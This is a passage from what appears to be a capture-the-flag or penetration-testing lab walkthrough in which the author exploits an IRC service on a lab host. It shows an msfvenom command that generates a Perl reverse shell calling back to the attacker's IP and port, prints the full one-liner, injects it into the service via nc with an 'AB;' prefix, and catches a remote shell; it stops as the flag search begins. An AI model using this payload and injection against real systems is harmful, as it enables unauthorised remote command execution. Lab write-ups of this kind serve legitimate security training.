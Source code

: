 4.3) Generating the reverse shell with the right options:

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p cmd/unix/reverse_perl -f raw LHOST=192.168.45.239 LPORT=4242 > rshell.pl  
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder specified, outputting raw payload
Payload size: 233 bytes

                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ cat rshell.pl
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.45.239:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'                                                                                                                              
```

4.4) While modifying our exploit code to inject our reverse shell instead of trying to download it from the internet, I notice the exploit is quite simple and I opt to drop the payload directly with `nc`

Note at this point I've already set up a local listener in a different tab to catch our reverse shell:

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
```

Here we go (the second line is the payload):

```
┌──(kali㉿kali)-[~]
└─$ nc 192.168.234.120 6667
:irc.foonet.com NOTICE AUTH :*** Looking up your hostname...
AB; perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.45.239:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
:irc.foonet.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
:irc.foonet.com 451 AB; :You have not registered
```

And we catch a shell on our listener, yay!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4242
listening on [any] 4242 ...
connect to [192.168.45.239] from (UNKNOWN) [192.168.234.120] 46676
whoami
server
```

5) We search the current user's home directory and find our flag:
